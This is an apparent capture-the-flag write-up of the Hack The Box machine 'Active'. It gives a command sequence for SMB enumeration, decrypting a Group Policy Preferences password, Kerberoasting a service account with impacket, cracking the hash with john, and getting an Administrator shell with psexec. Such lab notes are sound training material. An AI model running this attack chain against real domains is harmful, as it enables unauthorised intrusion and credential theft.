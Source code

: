 # Active Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -sC -sV -oA active -Pn 10.10.10.100``
### or
``nmap -p- -sV -oA fullactive 10.10.10.100``
### and 
``nmap --script safe -445 10.10.10.100``

* The right way here was the right enumeration of the port 445 **:white_check_mark:**

### DNS recon
``gobuster dns -d active.htb -t 25 -w /opt/seclists/Discovery/DNS/subdomains-top1million-20000.txt``

``dnsrecon -d 10.10.10.100 -r 10.0.0.0/8``

``nslookup ``

``server 10.10.10.100``

``127.0.0.1``

### SMB recon
``smbmap -H 10.10.10.100``

``enum4linux -a -u "" -p "" 10.10.10.100 ``

``enum4linux -a -u "guest" -p "" 10.10.10.100``

``smbclient -U '%' -L //10.10.10.100``

``smbclient -U 'guest%' -L //10.10.10.100``

### SMB to not miss anything in the share
``smbmap -R Replication -H 10.10.10.100``
``smbmap -R Replication -H 10.10.10.100 -A Groups.xml -q``
### or 
``smbclient //10.10.10.100/Replication``
``RECURSE ON``
``PROMPT OFF``
``mget *``

# ${{\color{purple}Initial Foothold}}\ $

### I found a password in the Groups.xml file but what to do afterwards on a box where the port 3389 is not open ?

Decode password :

`python3 gpp-decrypt.py -c edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ`

![image](https://user-images.githubusercontent.com/123066149/217777696-9092c454-7c24-4105-b10a-2a65fc5e4ef1.png)


# ${{\color{purple}Exploitation}}\ $

 ### 1) Find the users of the box 
``/usr/bin/impacket-GetADUsers -all -dc-ip 10.10.10.100 active.htb/svc_tgs``


![image](https://user-images.githubusercontent.com/123066149/217771016-d0786329-3bb6-4532-bb18-921fc95d9590.png)

### 2) List the user's rights on the shares  
Before 
![image](https://user-images.githubusercontent.com/123066149/217771660-8735c7cd-af60-48b9-982c-64d1fcedb241.png)
After
![image](https://user-images.githubusercontent.com/123066149/217771490-866b2fb7-5e4f-41b8-874a-e279cf7386ab.png)

### 3) Try a connection ( need Windows )

`runas /netonly /user:active.htb\svc_tgs cmd`

and list the shares :

`dir \\10.10.10.100\Users`

### 4) Try to get UserSPNs :

`/usr/bin/impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS` 

# ${{\color{purple}Privilege Escalation}}\ $

`/usr/bin/impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS` 

![image](https://user-images.githubusercontent.com/123066149/217774864-66183e11-96a7-4a42-819e-62e3e25316d9.png)

`john --wordlist=/usr/share/wordlists/rockyou.txt -format=krb5tgs ./krb5tgs.txt`

![image](https://user-images.githubusercontent.com/123066149/217775198-6f5eb564-77e6-4d6f-b49b-d23072f98973.png)

`/usr/bin/impacket-psexec active.htb/Administrator@10.10.10.100`

![image](https://user-images.githubusercontent.com/123066149/217775392-8a49d703-f564-4ac3-a139-34f4fccc0c69.png)

# ${{\color{purple}Points of Improvement}}\ $

* Add the domain ``active.htb`` directly from the ``host`` file.
* Before doing a ``locate`` command, use the ``updatedb`` command to update the database.
* Make an nmap script to know the version of smb ``nmap --script safe -445 10.10.10.100``
* Remember to change the ``/``in the command : ``/usr/bin/impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS``
Otherwise the command does not work     
